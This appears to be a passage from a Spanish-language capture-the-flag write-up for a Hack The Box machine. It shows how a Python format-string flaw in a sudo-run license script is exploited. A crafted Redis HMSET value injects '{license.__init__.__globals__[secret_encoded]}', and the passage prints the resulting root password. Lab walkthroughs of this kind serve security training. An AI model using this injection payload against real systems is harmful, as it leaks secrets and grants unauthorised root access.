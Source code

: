 - El ```format()``` se esta utilizando para reemplazar el valor de la posición 1 en la cadena de ```license```, con los valores que corresponde, es decir, el marcador de posición de ```{license.license}``` se reemplaza por el valor del atributo ```license``` de la clase ```License```, el cual viene como argumento por CLI, el problema es que mediante ```format()``` podemos acceder directamente a las propiedades de un objeto para obtener su valor, como por ejemplo, podemos acceder a los de la clase ```License```, sin embargo, el problema grave viene por que tambien podemos acceder directamenta a otros atributos fuera de la clase para recuperar el valor de cualquier otra variable o atributo que este en el programa, eso lo podemos hacer con ```__init__``` y ```__globals__```, ahora, guiandome de [aca](https://podalirius.net/en/articles/python-format-string-vulnerabilities/) explotaremos esta vulnerabilidad, usaremos redis otra vez: ```redis-cli -s /var/run/redis/redis.sock```

Ahora dentro de redis, usaremos ```HMSET``` para establecer varios valores en una clave:

```
HMSET c4rta first-name "{license.__init__.__globals__[secret_encoded]}" last-name hola username c4rta
```

En este caso, estamos estableciendo first-name, last-name y username en la clave "c4rta" dentro de una estructura hash, y el valor que le asignamos a first-name es ```{license.init.globals[secret_encoded]}``` donde estamos llamando a ```secret_encoded``` el cual es una variable en el archivo que analizamos y el cual contiene la licencia, que vendria siendo la contraseña, como se ve aca:

```py
secret = [line.strip() for line in open("/root/license/secret")][0]
secret_encoded = secret.encode()
```
Asi que ahora si llamamos al archivo con la licencia ```c4rta``` nos debe de mostrar la contraseña de root ```sudo /usr/bin/license -p c4rta```

![](/assets/img/htb-format/20.png)

Y ya esta: la contraseña de root es ```unCR4ckaBL3Pa$$w0rd```

![](/assets/img/htb-format/21.png)
